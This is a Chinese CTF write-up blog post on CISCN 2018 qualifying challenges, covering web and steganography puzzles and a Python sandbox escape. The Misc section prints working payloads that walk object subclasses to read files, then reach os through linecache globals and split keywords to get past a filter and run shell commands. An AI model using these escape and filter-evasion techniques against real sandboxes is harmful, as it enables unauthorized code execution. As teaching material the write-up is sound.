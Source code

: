 ```yaml
---
layout: post
title: CISCN 2018 初赛 Write-up
date: 2017-06-12 17:32:24.000000000 +08:00
tags: writeup
---
```


多年不更新，趁有时间整理一下最近比赛的writeup.

## Web
### Easyweb
。。。找了半天的注入点发现是空密码我会告诉你？

### Picture
下载到的 PNG（实际是 JPG）尾部添加了 zlib 数据。

binwalk –e 提取之，发现是 base64 编码；解码之，获得一个文件头是“4B 50”的文件。

修改为“50 4B”，发现是压缩包，提示密码是“ZeroDivisionError: …………”
用 python 被零除的默认错误信息实验（integer division or modulo by zero）（感谢某lth大佬提供脑洞），成功解压

解压出的文件是 uuencoded，uudecode 之，获得 flag

### Flag_in_your_head 
Js 实际是 MD5 实现，但 binl 中添加了一个 ck 函数 

    function ck(s) {
        try {
            ic
        } catch (e) {
            return;
        }
        var a = [118, 104, 102, 120, 117, 108, 119, 124, 48,123,01,121];
        if (s.length == a.length) {
            for (i = 0; i < s.length; i++) {
                if (a[i] - s.charCodeAt(i) != 3)
                    return ic = false;
            }
            return ic = true;
        }
        return ic = false;
    } 

显而易见，将 A 的各元素 ASCII-3，获得 Token：*security-xbv*。传入，获得 flag.

## Misc
### Run
比较典型的 Python 沙盒逃逸。
首先先用 object 基类的__subclasses__子类内的 file 子类，可以构成文件读取：

    [].__class__.__base__.__subclasses__()[40]('/home/ctf/sandbox.py')

虽然不能直接 getshell，注意到退出时的错误信息 leak 出文件名，可以读取到源码。

此时的直接想法是利用 warnings.catch_warnings 类 linecache 引入的 os 模块，执行系统命
令；但是 func_globals 被 ls 规则过滤，故使用如下 payload:

    >>> p = ‘func_global’ + ‘s’
    >>> o = [].__class__.__base__.__subclasses__()[59].__init__.__func__.__getattribute__(p)['linecache'].__dict__.values()[12].__dict__.values()[144]
    >>> c = ‘l’ + ‘s /home/ctf/’
    >>> o(c)
    5c72a1d444cf3121a5d25f2db4147ebb
    bin
    cpython.py
    cpython.pyc
    sandbox.py
    >>> c = 'ca' + 't /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'
    >>> o(c)
    ciscn{62a20588ef9766b418537c763366ea0c}

## RE
### 